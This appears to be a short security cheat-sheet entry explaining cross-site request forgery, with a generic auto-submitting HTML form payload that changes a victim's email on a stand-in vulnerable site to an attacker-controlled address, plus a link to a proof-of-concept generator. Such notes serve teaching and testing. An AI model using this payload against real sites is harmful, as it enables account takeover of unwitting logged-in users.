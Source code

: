 # CSRF

Cross-site request forgery (CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. CSRF exploits the trust that a site has in a user’s browser. This is possible because browsers send authentication tokens automatically with every request to a site. This means that if a user is logged in to a site, the site trusts the requests that it receives from the user’s browser.

## Generic payload

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Tools

CSRF PoC Generator - https://portswigger.net/burp/documentation/desktop/tools/engagement-tools/generate-csrf-poc